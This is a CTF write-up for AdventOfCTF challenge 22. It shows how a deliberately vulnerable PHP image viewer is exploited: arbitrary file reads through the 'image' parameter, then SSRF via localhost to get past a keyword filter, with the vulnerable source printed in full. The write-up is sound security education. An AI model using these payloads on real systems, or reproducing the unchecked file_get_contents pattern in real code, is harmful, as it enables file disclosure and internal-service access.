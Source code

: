 +++
author = "Maik de Kruif"
title = "Dubstep"
subtitle = "Challenge 22 - AdventOfCTF"
date = 2021-03-04T01:24:34+01:00
description = "A writeup for challenge 22 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/6c0810c1568645bcf58da67a1db6e3e7.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
    "ssrf",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_22"
]
+++

-   Points: 2200

## Description

We have a new service! You can view santa's favorite pictues. Currently there is only one, but it is a very good one! You can get the flag through flag.php.

Visit <https://22.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with a link with the text "Is this santa?". If we click on it, it redirects to `/index.php?image=cat.jpg`.

This page shows us a nice picture of a cat.

## Finding the vulnerability

When looking at this, you might think of Local File Inclusion (LFI). This makes sense as it is one of the most common vulnerability in opening files.

We can try to use it to open `flag.php`. To try this, let's replace `cat.jpg` with `flag.php` in the URL.

When opening the page, we will see a broken image, this is expected as the file it not an image. If we open the source we find the following:

```html
<img
    src="data:image/jpeg;base64,PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo="
    width="100%"
/>
```

Here we see some `base64` encoded data, let's decode it using the following command:

```bash
echo -n "PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo=" | base64 -d
```

```php
<?php

include("secret.php");

if (strpos(check_secret(), "allow") !== false) {
   echo get_flag();
}

?>
```

If we look at this code, we see that if `check_secret()` contains `"allow"`, it will execute the `get_flag()` function (which will probably give us the flag).

The functions are not defined in this file so they probably come from `secret.php`. Let's try to read that file.

Alas, we get the cat picture again. That's weird. There might be a filter on the input. Let's verify that by reading the `index.php` file.

Using the same decoding method, we get the following result:

{{< collapsible-block badge="php" title="index.php" >}}

```html
<!DOCTYPE html>
<html class="no-js" lang="">
    <head>
        <meta charset="utf-8" />
        <meta http-equiv="x-ua-compatible" content="ie=edge" />
        <title>Advent of CTF 22</title>
        <meta name="description" content="" />
        <meta name="viewport" content="width=device-width, initial-scale=1" />

        <link
            rel="stylesheet"
            href="style.css"
            type="text/css"
            media="screen"
        />
        <link
            rel="stylesheet"
            href="https://use.fontawesome.com/releases/v5.6.3/css/all.css"
            integrity="sha384-UHRtZLI+pbxtHCWp1t77Bi1L4ZtiqrqD80Kn4Z8NTSRyMA2Fd33n5dQ8lWUE00s/"
            crossorigin="anonymous"
        />
        <style>
            .row-margin-05 {
                margin-top: 0.5em;
            }
            .row-margin-10 {
                margin-top: 1em;
            }
            .row-margin-20 {
                margin-top: 2em;
            }
            .row-margin-30 {
                margin-top: 3em;
            }
        </style>
    </head>
    <body>
        <div class="jumbotron bg-transparent mb-0 radius-0">
            <div class="container fluid">
                <div class="row">
                    <div class="col-xl-6 mx-auto">
                        <h1 class="display-2">
                            Advent of CTF <span class="vim-caret">22</span>
                        </h1>
                        <div class="lead mb-3 text-mono text-warning">
                            Your daily dose of CTF for December
                        </div>

                        <div class="row">
                            <div class="col-xl-12 mx-auto">
                                <div class="card">
                                    <div class="card-header text-center">
                                        <h2>The big reveal</h2>
                                    </div>
                                    <div class="card-body">
                                        <?php
                    if (!isset($_GET["image"])) {
                    ?>
                                        <a href="/index.php?image=cat.jpg"
                                            >Is this santa?</a
                                        >
                                        <?php
                    } else {
                        $path = $_GET["image"];
                        if (strpos($path,"secret") !== false) {
                            $path="cat.jpg";
                        }
                        $image = file_get_contents($path);
                        echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
                                        } ?>
                                    </div>
                                    <div class="card-footer text-center">
                                        Almost there
                                    </div>
                                </div>
                            </div>
                        </div>
                        <div class="row row-margin-30">
                            <div class="card mb-3 bg-dark text-white">
                                <div class="card-body">
                                    <div class="row">
                                        <div class="col-md-2">
                                            <img src="/logo.png" />
                                        </div>
                                        <div
                                            class="col-md-9 offset-md-1 align-middle"
                                        >
                                            <p class="text-center">
                                                <span class="align-middle">
                                                    The Advent of CTF is brought
                                                    to you by
                                                    <a href="http://www.novi.nl"
                                                        >NOVI Hogeschool</a
                                                    >. It is built by
                                                    <a
                                                        href="https://twitter.com/credmp/"
                                                        class="icoTwitter"
                                                        title="Twitter"
                                                        ><i
                                                            class="fab fa-twitter"
                                                        ></i>
                                                        @credmp</a
                                                    >. If you are looking for a
                                                    Dutch Cyber Security
                                                    Bachelor degree or bootcamp,
                                                    <a
                                                        href="https://www.novi.nl"
                                                        >check us out</a
                                                    >.
                                                </span>
                                            </p>
                                        </div>
                                    </div>
                                </div>
                            </div>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </body>
</html>
```

{{< /collapsible-block >}}

Just the PHP part:

```html
<?php
if (!isset($_GET["image"])) {
?>
<a href="/index.php?image=cat.jpg">Is this santa?</a>
<?php
} else {
    $path = $_GET["image"];
    if (strpos($path,"secret") !== false) {
        $path="cat.jpg";
    }
    $image = file_get_contents($path);
    echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
} ?>
```

Here we see that we cannot get any file containing "secret". This means we have to find another way to get the flag.

We see that this code is using the `file_get_contents()` function to open file. Let's have a look at the [PHP documentation for it](https://www.php.net/manual/en/function.file-get-contents.php).

If we read a bit we find the following example usage:

```php
<?php
$homepage = file_get_contents('http://www.example.com/');
echo $homepage;
?>
```

This means it can also open URLs and, since we control the input to the function, we have a Server-Side Request Forgery (SSRF) vulnerability. Let's try to use that to open the flag file.

To test this, we can use the following input; `image=http://localhost/flag.php`.

_Note: We can not use the `secret.php` file as any input containing "secret" is blocked._

We, again, got some base64 encoded data back, so let's decode it:

```bash
echo -n "Tk9WSXthc2tpbmdfZm9yX2FfZnJpZW5kfQ==" | base64 -d
```

## Solution

We got the flag! It is `NOVI{asking_for_a_friend}`.
